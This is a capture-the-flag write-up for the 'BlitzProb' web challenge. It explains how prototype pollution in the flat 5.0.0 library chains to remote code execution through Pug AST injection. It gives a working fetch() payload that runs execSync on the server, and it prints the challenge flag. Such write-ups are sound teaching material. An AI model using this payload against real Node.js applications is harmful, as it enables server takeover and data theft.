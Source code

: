 ```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a _Prototype Pollution_ to RCE via _AST Injection_. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

Upon visiting the entry point, we are greeted with a aesthetic, futuristic looking feedback form. We are provided with a list of songs from a famous alien band named __Blitz Prop__ and asked to choose our favorite.

![](/assets/img/blitzProb_web.png#center)

## Vulnerability
If we go through the source code, we can see in the file `routes/index.js` that the `unflatten` function is the only thing processing our input. It turns the JSON that is send to it back into an object. What if we could write or overwrite other items in Node's object space?

The vulnerable code of the challenge:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the `package.json` file we can see that "flat" “5.0.0” is installed, which suffers from a _Prototype Pollution_ vulnerability. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC. 

How do we exploit this? There are no _if_ branches to bypass in the code. The default object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own functions.

**Note:** This is because function definitions are not valid JSON.
You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "Foo"' }` but it will eventually break everything, as a critical _function_ has now been redefined as a _string_.

We can achieve RCE if we can find an `exec()` or `eval()` statement anywhere in our application. Maybe Pug?

The `pug.compile` function converts a _string_ into a template _function_ and passes the _object_ for reference. It is a method to check the use of pug template engine in a black-box environment using prototype pollution.

When we insert AST into the `Object.prototype.block`, the compiler adds it to the buffer by referring to the value... (be sure to read the previously mentioned blog for a detailed explanation)... AST generated by `pug-parser` is passed to the `pug-code-gen` and made into a function and finally, it will be executed.

## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```

The flag file has been written to the _static_ directory (the only place where we have write access). After visiting `static/flag.txt` we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶
